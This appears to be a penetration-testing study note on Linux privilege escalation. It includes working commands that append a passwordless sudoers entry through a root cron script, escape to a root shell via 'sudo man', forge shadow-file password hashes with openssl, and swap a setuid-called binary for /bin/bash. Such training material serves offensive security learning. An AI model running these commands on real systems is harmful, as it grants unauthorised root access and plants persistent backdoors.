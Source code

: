 # Weak Permissions

- find / -not -type l -perm -o+w (world-writable files)
- use openssl to generate encrypted linux passwords (can be substituted in shadow file)
	- openssl passwd -<1/2/3/4/5/6> -salt abc <cleartext password>
	- -1 means weakest algorithm, -6 means strongest

# Sudo Misconfig

- sudo -l : programs that current user can run as root
- eg. man > sudo man cat > type !/bin/bash > opens shell as root
  ![privesc](./images/linprivesc-01.png)
  ![privesc](./images/linprivesc-02.png)
  ￼
- if LD_PRELOAD env in "sudo -l" output, 
  ![privesc](./images/linprivesc-03.png)
  ![privesc](./images/linprivesc-04.png)
  ![privesc](./images/linprivesc-05.png)
  ![privesc](./images/linprivesc-06.png)
      ￼

# Kernel Exploit

- https://github.com/mzet-/linux-exploit-suggester
- upload les.sh to target using meterpreter and run the file
- eg. dirtycow exploit creates a new user with escalated perms with a password

# Cron jobs

- look for a script file (.sh) which normal user van edit and can run as root.
- printf '#! /bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh
- this will create a script which will allow student user to run sudo without password

# Exploiting setuid programs

- setuid bit looks like:

  ![privesc](./images/linprivesc-07.png)
  
- find files:  find / -user root -perm -4000 -exec ls -ldb {} \;
- another way to find file: find / -perm -u=s -type f 2>/dev/null
- this means this binary along with all child processes run with root privs
- investigate binary with - strings ./welcome
- since this binary is calling greetings binary, we delete the ./greetings binary
- and replace with /bin/bash binary
- this will run /bin/bash as root
- run the welcome binary, it should give root shell

# Rootkit scanner

- check for any scripts running that are running chkrootkit as root in "ps aux"
- chkrootkit v0.49 is vulnerable to privesc - exploit/unix/local/chkrootkit
- set CHKROOTKIT /bin/chkrootkit 

  ![privesc](./images/linprivesc-08.png)
  ![privesc](./images/linprivesc-09.png)
